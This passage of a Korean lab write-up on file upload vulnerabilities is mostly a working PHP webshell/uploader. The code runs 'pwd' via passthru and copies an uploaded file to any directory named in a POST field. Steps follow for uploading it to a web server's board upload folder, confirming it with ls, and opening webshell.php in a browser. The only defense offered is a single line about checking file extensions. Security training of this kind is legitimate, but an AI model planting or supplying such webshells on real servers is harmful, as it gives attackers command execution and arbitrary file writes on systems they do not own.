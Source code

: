   ```
  		<div align="left">
  			<font size="2">Uploader file : </font>
  			<form name="forml" method="post" enctype="multipart/form-data">
  				<input type="text" name="dir" size="30" value="<? passthru("pwd"); ?>">
  				<input type="submit" name="submit2" value="Upload">
  				<input type="file" name="file" size="15"
  				<pre>
  				<?php
  				$uploaded = $_FILES['file']['tmp_name'];
  				if(file_exists($uploaded)){
  					$pwddir = $_POST['dir'];
  					$real = $_FILES['file']['name'];
  					$dez = $pwddir."/".$real;
  					copy($uploaded, $dez);
  					echo "FILE UPLOADED TO $dez";	
  				}
  				?>
  				</pre>
  			</form>
  		</div>
  	</body>
  </html>
  ```

  - 업로드

    ![화면 캡처 2022-11-02 161352](../../assets/img/화면 캡처 2022-11-02 161352.png)

  - 업로드 여부 확인

    ```
    [root@localhost 바탕화면]# ls -al /var/www/html/board/upload
    ```

    ![화면 캡처 2022-11-02 161537](../../assets/img/화면 캡처 2022-11-02 161537.png)

  - webshell 실행

    ```
    http://서버주소/board/upload/webshell.php
    ```

    ![화면 캡처 2022-11-02 161838](../../assets/img/화면 캡처 2022-11-02 161838.png)

  - 





## File Upload 취약점 보안

- File Upload 취약점 보안 대책
  - upload 되는 파일의 확장자를 검사 해야 함
